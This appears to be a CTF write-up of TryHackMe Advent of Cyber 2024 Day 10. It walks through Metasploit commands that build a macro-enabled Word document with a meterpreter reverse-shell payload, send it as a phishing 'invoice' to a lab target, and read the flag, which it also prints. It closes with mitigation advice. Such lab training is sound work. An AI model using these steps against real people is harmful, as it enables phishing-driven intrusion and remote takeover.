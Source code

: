 # 🎄 TryHackMe Advent of Cyber 2024 – Day 10: Phishing and Macro Exploitation

## Objectives 🎯

Day 10 focuses on understanding **phishing attacks** and how malicious macros can be embedded into Microsoft Office documents to execute payloads. The key tasks include:
- Learning how phishing exploits social engineering to bypass security.
- Creating a malicious macro-enabled document using Metasploit.
- Executing a phishing simulation to deliver the malicious document and gain a reverse shell.

## Steps 🚀

### **Step 1: Setting Up the Environment**
1. **Start the Machines:**
   - Click the **Start Machine** button to start the **target machine** attached to this task.
   - Launch the **AttackBox** by clicking the **Start AttackBox** button at the top of the page.
   
2. **Launch Metasploit Framework:**  
   Open the AttackBox terminal and start Metasploit:
   ```
   msfconsole
   ```

3. **Set Payload for Reverse Shell:**  
   Configure the payload:
   ```
   set payload windows/meterpreter/reverse_tcp
   ```

4. **Specify Exploit Module:**  
   Use the module to create a malicious macro:
   ```
   use exploit/multi/fileformat/office_word_macro
   ```

5. **Set Listener Details:**  
   Define the attacker IP (`LHOST`) and port (`LPORT`):
   ```
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   ```

6. **Generate Malicious Document:**  
   Generate the Word document with the embedded macro:
   ```
   exploit
   ```
   The document (`msf.docm`) is saved to `/root/.msf4/local/msf.docm`.

---

### **Step 2: Configuring the Listener**
1. **Start the Listener in Metasploit:**  
   Use the multi-handler module to listen for incoming connections:
   ```
   use multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   exploit
   ```

2. **Wait for Connections:**  
   The listener is now ready to capture reverse shells once the document is executed.

### **Step 3: Sending the Malicious Document**
1. **Log In to the Mail Server:**  
   Open Firefox in the AttackBox and navigate to `http://MACHINE_IP`. Use the provided credentials:
   - **Email:** info@socmas.thm  
   - **Password:** MerryPhishMas!

2. **Compose a Phishing Email:**  
   Attach the malicious document (`msf.docm`) and send it to the target:
   - **Recipient:** marta@socmas.thm  
   - Rename the document to something plausible like `invoice.docm`.

3. **Social Engineering Message:**  
   Write a convincing message in the email body to entice the target to open the document.

### **Step 4: Exploitation**
1. **Target Opens the Document:**  
   Once Marta opens the document, the embedded macro executes, establishing a reverse shell connection.

2. **Access the Target System:**  
   In Metasploit, observe the successful connection:
   ```
   msf6 exploit(multi/handler) > exploit
   ```

3. **Navigate to the Desktop:**  
   Use the Meterpreter session to find the `flag.txt`:
   ```
   cd c:/users/Administrator/Desktop
   ls
   cat flag.txt
   ```

4. **Retrieve the Flag:**  
   The flag is displayed.

**Flag:** `THM{PHISHING_PAYLOAD_WIN}`

## Key Findings 🔑

1. **Phishing Attacks:**  
   Social engineering is a highly effective method to bypass technical defenses.
   
2. **Malicious Macros:**  
   Macros in Office documents can be weaponized to execute payloads and gain remote access.

3. **Reverse Shell:**  
   A reverse shell allows attackers to control a compromised system remotely, bypassing firewalls and NAT.

## Lessons Learned 🌟

### Key Takeaways
1. **Human Factor:**  
   Phishing attacks exploit human error, making security awareness training critical.
   
2. **Macro Exploitation:**  
   Embedding malicious macros in commonly used file formats can evade basic defenses.

3. **Phishing Prevention:**  
   - Use domain filtering to block typosquatting domains.
   - Enable email security tools like DKIM and SPF.
   - Educate users to identify phishing attempts.

### Mitigation Strategies
- Disable macros by default in Office applications.
- Monitor outgoing network connections for unusual activity.
- Deploy advanced endpoint protection solutions.

### Tools and Techniques 🛠️
1. **Metasploit Framework:**  
   Used to generate malicious documents and handle reverse shells.
2. **Email Server Simulation:**  
   Sent phishing emails to the target.
3. **Meterpreter:**  
   Exploited the connection to gain control over the target system.

## Final Thoughts 🎁

Day 10 provided hands-on experience with **phishing attacks** and the power of **macro-enabled documents** in social engineering exploits. This task emphasized the importance of user training and technical controls to mitigate phishing risks. The seamless integration of Metasploit made this challenge both informative and practical for real-world scenarios.

### Answers ✅
1. **What is the flag value inside the `flag.txt` file?**  
   **Answer:** `THM{PHISHING_PAYLOAD_WIN}`

## Table of Contents 📚

| Day  | Challenge                              | Day  | Challenge                               | Day  | Challenge                               |
|------|----------------------------------------|------|-----------------------------------------|------|-----------------------------------------|
| 📖  | [README](README.md)                    | 11   | [Wi-Fi Attacks](day_11.md)             | 22   | [Kubernetes DFIR](day_22.md)            |
| 1    | [OPSEC Challenge](day1.md)             | 12   | [Web Timing Attacks](day_12.md)        | 23   | [Hash Cracking](day_23.md)              |
| 2    | [Log Analysis](day2.md)                | 13   | [WebSockets](day_13.md)                | 24   | [Hash Cracking](day_23.md)              |
| 3    | [Log Analysis](day3.md)                | 14   | [Certificate Mismanagement](day_14.md) | 25   |                                         |
| 4    | [Atomic Red Team](day4.md)             | 15   | [Active Directory](day_15.md)          | 26   |                                         |
| 5    | [XXE](day5.md)                         | 16   | [Azure Exploitation](day_16.md)        | 27   |                                         |
| 6    | [Sandboxes](day6.md)                   | 17   | [Log Analysis](day_17.md)              | 28   |                                         |
| 7    | [AWS Sandboxes](day7.md)               | 18   | [Prompt Injection](day_18.md)          | 29   |                                         |
| 8    | [Shellcodes](day8.md)                  | 19   | [Game Hacking](day_19.md)              | 30   |                                         |
| 9    | [Risk Assessment](day9.md)             | 20   | [Traffic Analysis](day_20.md)          | 31   |                                         |
| 10   | **Phishing**                           | 21   | [Reverse Engineering](day_21.md)       | ☃️  | 🎄🎅🎁✨                              |
